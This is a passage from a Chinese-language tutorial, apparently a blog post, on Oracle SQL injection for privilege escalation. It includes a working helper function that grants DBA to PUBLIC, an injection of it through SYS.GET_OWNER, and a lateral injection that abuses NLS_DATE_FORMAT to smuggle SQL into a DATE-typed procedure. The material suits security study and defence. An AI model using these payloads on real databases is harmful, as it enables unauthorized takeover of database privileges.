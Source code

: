``` sql
CREATE OR REPLACE FUNCTION GET_DBA RETURN VARCHAR AUTHID
CURRENT_USER IS
PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
EXECUTE IMMEDIATE 'GRANT DBA TO PUBLIC';
RETURN 'GOT_DBA_PRIVS';
END;
/ 

exec SYS.GET_OWNER('AAA''||TEST5.GET_DBA --');
```

![1609770633132.png](https://i.loli.net/2021/03/06/UydTw8ViWOk6ZbI.png)

在这里的`GET_DBA`这种函数被称为辅助注入函数，如果我们没有办法自己创建辅助注入函数的话，就要寻找oracle上已经存在的、可以辅助注入的函数。其它的可以看这里：

https://www.t00ls.net/articles-23609.html

http://www.davidlitchfield.com/HackingAurora.pdf

### 2. Lateral SQL Injection

这个是Oracle SQL注入的另一种利用手法，与我们通常理解的Web或代码层面SQL注入不太一样，它主要针对以下两种情况：

+ Procedure不接收用户输入的参数（参数不可控）
+ Procedure中SQL语句拼接的参数被定义为`NUMBER`或`DATA`类型

先看下面这个存储过程，它接收一个日期类型的参数，并将参数动态拼接入SQL语句：

``` sql
create or replace procedure date_proc_2 (p_date DATE) is
stmt varchar2(200);
begin
stmt:='select object_name from all_objects where created = ''' || p_date || '''';
dbms_output.put_line(stmt);
execute immediate stmt;
end;
/ 
```

先来尝试注入一下：

![1609834588610.png](https://i.loli.net/2021/03/06/velZNcjzIfDwYHQ.png)

直接GG，通常这种情况可能被认为无法注入，但如果我们有`ALTER SESSION`权限的话，就可以欺骗PL/SQL编译器将任意SQL语句作为日期类型（其实原本这个功能是用来修改日期类型的格式的）

``` sql
ALTER SESSION SET NLS_DATE_FORMAT = '"'' and TEST6.GET_DBA()=1--"';

-- 然后注入获取DBA
exec SYS.date_proc_2(''' and TEST6.GET_DBA()=1--');
```

如图所示：

![1609836404037.png](https://i.loli.net/2021/03/06/pvKxy2YgzUN7jMn.png)
